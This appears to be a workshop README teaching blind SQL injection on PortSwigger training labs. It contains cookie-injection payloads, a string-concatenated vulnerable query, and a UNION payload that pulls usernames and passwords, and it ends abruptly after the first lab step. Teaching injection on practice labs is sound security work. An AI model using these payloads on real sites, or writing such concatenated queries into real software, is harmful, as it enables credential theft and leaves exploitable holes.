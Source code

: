 # sql-injection-lab

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses does not contain any SQL query result. So a UNION attack wont work.
Instead, we can infer the results indirectly based on the application's behavior, such as changes in response times or error messages.

In this workshop we will solve two blind SQL injeciton labs, error-based SQL injection and SQL injection with time delays.
The goal for both labs is to log in as the administrator user. 

## error-based SQL injection
Go to the lab website and access the lab.
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

The website we are hacking is a webshop and it has a SQL injection vulnerability in the TrackingId cookie!
Assuming the cookie looks like this :

``` 
TrackingId=xyz, 
```

Modify it to the following. You can use BurpSuite to modify the cookie, or simply use tge DevTools in your browser.

``` 
TrackingId=xyz' AND '1'='1
```

Notice that there is a "Welcome Back" message in the top right corner. Now change it to the following:

``` 
TrackingId=xyz' AND '1'='2
```
Notice that the "Welcome Back" text disappears. This shows that we can use a boolean condition to infer results. If the expression, in this case, '1'='1, evaluates to true, the "Welcome Back" text is shown. If it evaluates to false, the text dissapears. 





``` sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

``` 
$sqlQuery = "SELECT a, b FROM products WHERE categories = + '" + $category + "'
```

``` sql
UNION SELECT username, password FROM users--'
```

``` sql
SELECT a, b FROM products WHERE categories = '' UNION SELECT username, password FROM users--'
```

